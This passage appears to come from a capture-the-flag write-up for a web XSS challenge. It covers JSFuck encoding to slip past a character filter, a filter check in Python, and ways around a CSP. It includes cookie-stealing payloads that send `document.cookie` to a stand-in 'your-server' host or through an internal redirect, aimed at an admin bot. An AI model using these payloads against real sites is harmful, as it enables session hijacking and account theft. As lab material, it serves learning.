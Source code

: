 ## Common Issues & Solutions

### Issue 1: Payload Too Long
**Solution**: JSFuck creates very long strings (~50k chars). This is normal and expected.

### Issue 2: Filter Still Blocks
**Solution**: Verify your payload ONLY contains: `[ ] ( ) ! +`
Run this check:
```python
allowed = set('[]()!+')
if all(c in allowed for c in payload):
    print("✓ Payload is valid")
```

### Issue 3: Can't See Flag in /searches
**Solution**: Try external exfiltration:
1. Set up webhook/server
2. Use payload: `location='https://your-server/?c='+document.cookie`
3. Encode with JSFuck and re-run exploit

### Issue 4: CSP Blocks External Requests
**Solution**: The CSP allows `connect-src 'self'`, so use:
- Internal redirect: `/searches?c='+document.cookie`
- Or `fetch()` to internal endpoint you control

## Expected Flag Format
```
PCC{...}
```

## Testing Locally

If you want to test before attacking the live server:

```powershell
cd "c:\Users\haryp\Downloads\web diva\extracted"
npm install
npm start

# Then exploit localhost:3000 instead
```

## Success Indicators

✓ JSFuck payload submitted successfully  
✓ Got UUID in redirect response  
✓ Admin bot visited the URL  
✓ Admin redirected to /searches with cookie  
✓ Flag captured: `PCC{...}`  
